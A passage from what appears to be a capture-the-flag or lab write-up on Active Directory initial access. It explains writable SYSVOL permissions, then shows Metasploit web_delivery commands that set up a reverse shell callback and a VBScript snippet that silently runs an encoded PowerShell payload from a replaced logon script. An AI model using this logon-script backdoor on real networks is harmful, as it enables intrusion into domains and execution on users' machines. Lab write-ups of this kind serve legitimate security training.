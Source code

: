 The reason why we can write to SYSVOL is because there are 2 level of permissions on the shares folder, one is Share permission and other is NTFS file-system permission and the NetExec and other various SMB tool can only check for Share permission but not file-system permission but this case is also not normal since in normal circumstance, only administrator-level user have write access to SYSVOL folder/share.

## Initial Access via logon script replacement
Now since I know that I can write file on the scripts folder then I can edit the script with the reverse shell payload generated with "web_delivery" module on metasploit
```
use exploit/multi/script/web_delivery
set lhost tun0
set lport 443
set uripath chicken
set target 2
run
```
![f3165242c0b2cd1358211d13baddf404.png](/resources/f3165242c0b2cd1358211d13baddf404.png)

Add the following code into the script and now we are ready for the attack.
```
Dim objShell
Set objShell = CreateObject("WScript.Shell")
objShell.Run "powershell -e ..." , 0, False
Set objShell = Nothing
```